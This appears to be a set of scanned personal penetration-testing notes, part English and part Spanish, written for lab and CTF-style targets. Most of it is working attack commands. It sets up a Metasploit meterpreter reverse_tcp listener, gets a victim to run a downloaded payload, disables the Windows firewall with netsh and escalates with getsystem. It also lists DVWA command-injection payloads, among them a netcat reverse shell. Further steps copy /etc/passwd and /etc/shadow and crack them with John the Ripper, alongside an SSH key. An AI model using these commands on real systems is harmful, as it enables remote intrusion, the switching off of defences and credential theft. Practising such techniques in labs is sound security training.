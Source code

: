 Listener Setup
•	Type use exploit/multi/handler.
•	Type set payload windows/meterpreter/reverse_tcp.
•	Type set LHOST 10.10.10.11.
•	Start listener, type exploit -j -z |exploit -j -z exploit tells Metasploit to start the exploit. The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.
Execute Exploit
•	Open http://10.10.10.11/share on victim machine. Download Payload and run.
•	Type sessions -i to view sessions 
•	Type sessions -i 1 to interact with the session created 
•	Type execute -f cmd.exe -c -H | creates a channel to execute the victim command shell
•	Now Type shell | opens an interactive shell (cmd)
•	Type netsh firewall show opmode | to shown firewall stats
•	Type netsh advfirewall set allprofiles state off | to turn off firewall.
•	Type getsystem 
•	Type ps | processes

Dvwa
&& ls
& ls
; ls
| ls
&& nc -c sh 127.0.0.1 9001


john 
RSA private
ssh2john key.txt > hash.txt
john hash.txt -w=/usr/share/wordlists/john/lst
john hash.txt --show
john hash.txt -w/usr/share/wordlists/rockyou.txt

escalar privilegios 
sudo -l
cat /etc/passwd
seleccionar  y copiar 
nano passwd
pegar 
ctrl s
ctrlx
sudo cat /etc/shadow
Seleccionar y copiar
nano shadow
pegar 
ctrl s ctl x
unshadow passwd shadow > pwd.txt
john pwd.txt -w=/usr/share/wordlists/jhon.lst

Su root
cd /root
ls
cat root.txt
